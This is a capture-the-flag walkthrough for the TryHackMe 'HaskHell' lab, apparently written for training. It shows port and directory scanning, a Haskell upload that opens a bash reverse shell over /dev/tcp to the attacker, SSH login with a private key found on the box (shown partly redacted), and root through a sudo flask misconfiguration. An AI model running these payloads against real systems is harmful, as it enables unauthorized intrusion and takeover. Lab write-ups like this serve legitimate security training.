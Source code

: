 # Name = HaskHell

## [TryHackMe Room](https://tryhackme.com/room/haskhell)

IP:
```bash
export IP=10.10.68.222
```
First of all, we need to do a port scan using `nmap`
```bash
sudo nmap -sC -sV -A -T4 -p- -v -oN scans/nmap.initial $IP
```
Command |Result
--------|-------
-sC     |Run default scripts
-sV     |Enumerate versions
-A      |Aggresive mode
-T4     |Slightly faster scan
-p-     |Scan all ports
-v      |Verbose output
-oN     |Output to file
$IP     |Scan exported IP address

Output shows us only two open ports:

Ports open:
Port |Service
-----|----------
22   |ssh
5001 |http - Gunicorn 19.7.1

Walking around the page we notice that we should upload our scripts written in Haskell, but when we click link to uploads we see a 404 error. Somewhere around should be valid upload page, time to search for it. I primarily use `gobuster`
```bash
gobuster dir -u $IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
Command  |Result
---------|--------
dir      |Directory scan
-u       |Url to scan
-w       |Path to wordlist

I found seclists to be updated and running great. Scanning with gobuster shows us another page:

Directory found:
- /submit

Going to /submit page we found upload form, and judging from what we read earlier it woul only accept `*.hs` files, and trying with .txt file does nothing. Quick search around internet, and changig file format to .hs shows us it's true.
Looking around for suitabe code I found something that can spawn a reverse shell:

Simply write a script that spawns shell in Your favourite text editor (nano, gedit, sublime):
```haskell
import System.Process
main = do
   callCommand "bash -c 'bash -i >& /dev/tcp/YOUR_TUN0_ADDR/LPORT 0>&1'"
```
To check the tun0 ip address simply type:
```bash
ip addr show tun0
```
and the address we need to type in the script is right after `inet`.


This is just a simple reverse shell as found on [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), but preceded with bash -c to compile command.

After uploading the file it runs automatically, but don't forget to spawn `netcat` listener first!
```bash
nc -lvnp LPORT
```
Command   |Effect
----------|--------
-l        |Listen mode
-v        |Verbose output
-n        |Numeric-only
-p        |Port to listen on
LPORT     |Port number included in script

We got the reverse shell! Time to stabilize it:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
press Ctrl + Z to background session, then type
```bash
stty raw -echo
```
type in fg (won't show because of echo), press ENTER twice

back on the shell type 
```bash
export TERM=xterm
```
and we can press TAB to autocomplete, press arrows to go back and such. This stabilized shell resembles our normal terminal window.

We can't get anything useful searching through files except the user flag located in /prof/user.txt:

User flag:
`flag{EDITED}`

And private RSA key for user prof!
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
EDITED
MMn8PNqYKF3DWex59PYiy5ZL1pUG2Y+iadGfIbStSZzN4nItF5+yC42Q2wlhtwgt
i4MU8bepL/GTMgaiR8RmU2qY7wRxfK2Yd+8+GDuzLPEoS7ONNjLhNA==
-----END RSA PRIVATE KEY-----
```
To reveal the hidden files inside /home/prof/ use tag -a to ls command. I usually do this with -l tag to show list:
```bash
ls -la
```

Simply copy the key to Your machine and save it in id_rsa file. Next change file permissions to read-write for user only (600):
```bash
chmod 600 id_rsa
```
and we can log in to ssh using file with id key:
```bash
ssh prof@$IP -i id_rsa
```
Good, now we are a valid user logged on SSH, first thing I usually try to do is find out if i can use sudo commands:
```bash
sudo -l
```
This simple command shows us that indeed, we can run something:
```
User prof may run the following commands on haskhell:                                                                                 
    (root) NOPASSWD: /usr/bin/flask run
```
Running this command however, throws us an error:
```
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
```
Seems we need to give some variable to get it running. After a while of searching I found out that it can accept python scripts as input. That's great news! Easiest way to exploit it is simple os spawn script in python:
```bash
nano shell.py
```
```python
import os
os.system('/bin/bash')
```
Save it as python script, then add the script to variable FLASK_APP:
```bash
export FLASK_APP=script.py
```
and run as superuser
```bash
sudo /usr/bin/flask run
```
Locate root flag at /root/root.txt
Root flag
`flag{EDITED}`

And that's it! Submit the flags on the page to get points!
Congratulations!
